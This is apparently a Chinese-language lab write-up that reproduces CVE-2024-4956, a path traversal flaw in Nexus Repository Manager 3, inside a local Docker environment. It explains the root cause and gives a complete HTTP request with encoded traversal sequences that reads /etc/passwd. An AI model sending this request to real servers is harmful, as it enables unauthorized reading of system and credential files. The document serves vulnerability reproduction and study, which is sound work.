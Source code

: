 # Nexus Repository Manager 3 未授权目录穿越漏洞（CVE-2024-4956）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。

其3.68.0及之前版本中，存在一处目录穿越漏洞。攻击者可以利用该漏洞读取服务器上任意文件。

参考链接：

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## 漏洞环境

执行如下命令启动一个Nexus Repository Manager version 3.68.0 版本服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8081`即可看到Nexus的默认页面。

## 漏洞复现

与Orange Tsai在[Blackhat US 2018](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)分享的SpringMVC CVE-2018-1271漏洞类似，Jetty的`URIUtil.canonicalPath()`函数也将空字符串认为是一个合法目录，导致了该漏洞的产生：

![](1.png)

发送如下请求来复现漏洞：

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

可见，`/etc/passwd`已被成功读取：

![](2.png)
